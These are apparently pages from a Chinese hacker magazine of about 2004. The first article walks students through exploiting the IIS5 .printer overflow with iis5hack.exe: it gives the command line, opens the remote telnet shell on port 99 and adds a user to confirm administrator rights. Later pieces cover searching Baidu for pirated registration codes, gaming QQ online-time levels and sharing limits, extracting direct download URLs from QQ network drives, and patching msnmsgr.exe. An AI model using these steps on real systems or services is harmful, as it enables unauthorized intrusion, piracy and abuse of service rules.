

图 8



图 10



图 11

“大家看，iis5hack.exe 是 `.printer` 漏洞的溢出工具。我们把它下载下来。”

- 3. 漏洞利用程序的使用

“喏，啥都不知道呢，如何使用工具呢？”学生们问道。  
“不要紧，我们在命令行控制台下，直接输入 iis5hack，就会出现帮助信息。黑客软件一般都是这样的，有完善的版权和提示。”iis5hack 的结果如下，如图 9。



图 9

“哎哟！都是什么意思啊？”  
“先是版权信息，然后是用法。”老师耐心地解释道，“用法中表明，第一个参数是对方主机 IP，第二个是对方端口，第三个是对方主机的类型。下面就列出来，2000 中文版用 0，2000 中文版的 SP1 用 1，然后是英文版、日文版分别用 2、3、4、5。”  
“哎哟，难道只对 2000 的 SP1 有用？”台下吃惊地问道。  
“呵呵，是的，我们看看运气吧。但这里更重要的是这种方法，以后系统漏洞的攻击，都可以参照这样的流程。”老师说道。  
“为什么不同的系统要用不同的类型值呢？”学生 C 疑惑地问道。  
“嗯，那是因为以前有一些技术没有解决。现在已经可以统一起来了！如果有兴趣，大家可以参看《黑客 X 档案》2004 年第 8 期的主题乐园《菜鸟缓冲区溢出编程步步高》，其中就有对 `.printer` 漏洞利用程序编写的详细分析，大家看了一定不会失望的。”  
“哦！”大家埋头记下。  
“我们还要接着来完成攻击利用吧！按照用法，输入 `iis5hack 192.168.1.167 80 0`，提示可以 telnet 对方的 99 端口，我们试试，输入 `telnet 192.168.1.167 99`。”如图 10。  
“哈哈，成功咯！！！”台下一阵欢呼，因为看见成功登录上了对方的机器，如图 11。

“我们看一下权限，添加个用户试试，输入 `net user ww0830 /add`，如果成功，就说明至少有管理员的权限。”老师说道，如图 12。



图 12

“哇！太好了！”大家都鼓起掌来。  
“呵呵，我们至少试了一下流程，首先先探测对方端口和对应服务；然后查找服务具有的漏洞信息以及可利用的工具；最后尝试使用漏洞利用程序进行攻击！”  
“哦。”  
“虽然这三步流程比较清晰，但每一个步骤都有很多要注意的问题需要解决。大家都比较累了，先休息下，下节课再讲吧。Bye bye!”

> （本文涉及到的软件 Telnet.exe、tlntsvr.exe、iis5hack 光盘有收录）

## 破解软件，用百度？

牛晓东　李建海





有了网络可真好啊，最起码连买正版光盘的钱都省了。大到 Windows 操作系统、Office 系列软件包，小到各种优化、播放等共享软件，几乎都可以在网上把注册码（号称“世上最昂贵的字符串”）找出来。本来，百度是个搜索网站，但我们可以剑走偏锋用它来玩软件注册码的搜索，从而达到“破解”软件的目的，解除许多软件的日期或功能的限制。

以“XX解霸”软件为例，先用浏览器打开百度网站，然后在文本输入框输入“软件名称 + 空格 + D3DX8”格式的搜索内容（不包含双引号、加号，且字母大小写不限），像：`XX解霸 D3DX8`。回车或点击后面的“百度搜索”按钮，好多注册码相关结果就会出现。

其实这个方法并不是笔者最先发现的，而是论坛里流行的一个帖子。关键点在于后面的那段字符串（如 D3DX8），它常常与某些软件注册信息页面同现。利用这个规律，我们可以把搜索词调整为不同组合，快速定位到包含注册码信息的页面。

与刚才的方法类似，秘密就在于：只要从注册码中任意取出一段，再填入你想找的软件名称（可带版本号）即可。除了百度，也可以尝试 Google，方法基本一样。最后提醒一句：若条件允许，建议购买正版软件，以支持开发者与软件产业发展。

## 玩转新版QQ



在中国软件史上，腾讯的 QQ 绝对是一个奇迹。随便在一台家庭电脑或网吧电脑桌面上，几乎都少不了这个软件。如今腾讯推出了 QQ2004II Beta3，与以往升级不同的是，这次改动很大。下面就给大家介绍新版 QQ 的一些小技巧。

### 玩转QQ自定义头像

QQ 终于可以自定义头像了，但有几个要求（满足其一即可，且需使用腾讯 QQ 2004 II beta3 或以上版本）。

- QQ会员；
- 三钻并凑；
- 在线时间等级为太阳（16级）及以上用户。

符合以上条件的朋友，都可以任选本地图片设置为 QQ 自定义头像。在芸芸众生中，拥有前卫、超炫的头像更容易吸引他人眼球。QQ2004II Beta3 全新推出自定义头像功能，时尚个性从头像开始。



# 小鸡快跑

QQ 自定义头像。QQ 秀用户和 QQ 交友用户还可将自己的 QQ 秀头像和个人形象照片设为自定义头像。快快挑选最适合你的图片设置为自定义头像，亮出你的心情，Show 出你的个性。

但是经过我多次试验，发现：QQ 等级是不到 1 分钟按 1 分钟计算的，不到 1 小时也是按 1 小时计算的。现在大家下一个按键精灵，然后自己把时间算好，写一个脚本，然后上线下线。自己编写脚本的时候要算好时间，这点很重要！然后晚上睡觉的时候，大家可以挂，这样 1 个小时的时间，就升 16 个小时的级！但是网上也有一个“QQ 刷等级工具”，我们可以直接拿来用。

### 三、玩转QQ网络硬盘共享

大家都知道非会员 QQ 的网络硬盘共享人数是不得超过 5 个的。要想突破这个限制，你可以升级为 QQ 会员，也并不是每个人都那么舍得。不想出钱？可以！其实很简单！首先，在任意一个你要共享给别人的文件夹里面（就“我的文档”来说）再建个叫“ABC”（其实叫什么都无所谓）的文件夹。然后，把你要和别人共享的文件上传到“ABC”文件夹下。最后，在“我的文档”属性的共享里选 5 个共享好友，再在“ABC”文件夹里选另外 5 个共享好友。这样加起来就 10 个了。如果你想和更多人共享的话，就相应地建多个文件夹。很简单吧？

### 三、玩转QQ等级

腾讯 QQ 2004II beta1 全新推出在线时长功能，通过累积在线时长，您就可以获取相应的 QQ 等级。累积在线时长等级将有机会参加我们即将推出的奖励活动和享受相关的优惠服务，而不影响正常的 QQ 使用。

### 四、玩转QQ强制聊天

漂亮 MM 不加我？可我也不是恐龙呀，呵呵，我有办法！代码如下：

```text
http://wpa.qq.com/msgrd?V=1&Uin=*******&Site=ioshenmue&Menu=yes
```

使用方法：把代码中的“*******”星号换成你想与其聊天的 QQ 号后，复制到浏览器的地址栏处即可。无论他是否你的好友，你无须加他为好友就能给他发 QQ 消息。这回也该崇拜我了吧？嘿嘿！好了，今天就先向大家介绍这么多。你们有好的技巧，千万别忘了告诉我呀！（本文涉及到的 QQ 刷等级工具，光盘有收录）



### 找QQ网络硬盘的下载路径

今天我们来讲怎样找到 QQ 网络硬盘的真实下载路径，想必大家都等急了吧。闲话少说，下面就开始了。我们把自己想要下载的程序格式改为 WMV 格式，这个格式是电影播放格式，单击右键选择“在线播放”，显示出“无法加载此文件的源筛选器。”，没有关系，单击“关闭”，如图1。



我们右击右侧的“播放列表”，在出现的菜单中选择“属性”，看到了没有，有一个网址，如图2。



`http://219.133.38.150/qd_data/420427915011019901520955319313.asx`。别急，这还不是我们真正想要的真实路径，接下来用网际快车把这个网址下载下来，我们用记事本打开它。啊啊看到了没有：`http://219.133.38.150/cgi-bin/dl/04CAF47C3EA5BE7DD8EACF1547C1A0DA93C7D82500F15EE502D4AF5B11B99F57917FF3C05CE776BF88FBAC6CB62652AF714C/远程连接工具.wmv`。这个网址也不是我们想要的，如图3。



还没有完，我们要把这个网址的格式 WMV 改为原来的 RAR 格式，修改后的网址：`http://219.133.38.150/cgi-bin/dl/04CAF47C3EA5BE7DD8EACF1547C1A0DA93C7D82500F15EE502D4AF5B11B99F57917FF3C05CE776BF88FBAC6CB62652AF714C/远程连接工具.rar`。最后我们到 QQ 网络硬盘上去，也把那个刚才被我们改了的程序格式给改回来。现在这个程序的真实网址出来了，这才是我们想要的网址。我们用 IE 下载看看，是不是成功啦？！腾讯公司没有对下载程序设置权限，早晚会有高手猜出这个网址的算法，那我们 QQ 硬盘里的数据不是全公开了？（本文已做成动画，光盘有收录）

## 常用工具伸手可得

看了几个月的《X档案》后，在增加自己黑客知识的同时也发现了一个问题：学的东西越多，所用的工具也就多了，如果有个好方法就好多了。在看了前几期的几种方法后，我想把我知道的这种方法也告诉大家。因为每个人喜欢的方法不同，所以可能我的这种方法也适合你，毕竟方法多多益善。下面就把方法告诉给大家，希望对你有所帮助。

首先在桌面上新建一个文件夹，把常用工具的快捷方式加入文件夹中，然后拖动文件夹至桌面一边后释放，此时就会看到一个“工具栏”镶在桌面边框上，如图1。

如果只是这样看，时间长了一定会烦吧！不过我们可以让它随叫随到。不过要注意一点，原始的文件夹不能删除，删除文件夹，新建的“工具栏”也会被一同删除。适合加那些“深目录”的程序和文件。

这种方法与上一期的“建立频道法”很相似，不过比那种方法更易懂，也更适合初学者。另外也不需要别的工具辅助。

分享是黑客和想成为黑客的小菜们的一种义务，希望这种方法对小菜们有用。



## 打造个性化的 MSN Messenger

黑咖啡

MSN Messenger 是微软推出的即时通信软件，我们可以利用它与他人进行文字聊天、语音对话、视频会议等即时交流，还可以通过此软件来查看联系人是否联机。使用已有一个 Email 地址，即可注册获得免费的 MSN Messenger 登录账号。如果您拥有 Hotmail 或者 MSN 的邮件账号，那么您就可以使用该账号直接登录 MSN Messenger，而无须再申请新的账号了。MSN Messenger 简体中文 6.2 下载地址：`http://tj-http.skycn.net:8081/down/MSNGB_SetupDl.exe`。我们可以利用 WinHex 对 MSN Messenger 进行个性化改造，使它更符合我们的需要。

具体方法：用 WinHex 打开 MSN Messenger 6.2 的主文件 msnmsgr.exe，点击“搜索”菜单下的“查找16进制数值”，打开“查找16进制数值”对话框，在“下列16进制数值将被搜索”一栏中输入：`85C97409E8D4`，单击“确定”开始搜索，会找到唯一的一处结果，如图2。

### 1. 去除 MSN Messenger 的广告

在 MSN Messenger 的界面中有个广告条，如图1。我们可以用 WinHex 去掉它，使得界面更清爽一些。WinHex 曾得到过权威的 ZDNet Software Library 五星级最高评价，拥有强大的功能，可以运行在 Windows 9x/NT/2000/XP 平台上。汉化版下载地址：`http://crc.onlinedown.net:81/down/HA_WHex11_2SR1_ZQ.rar`，文件大小 393KB。



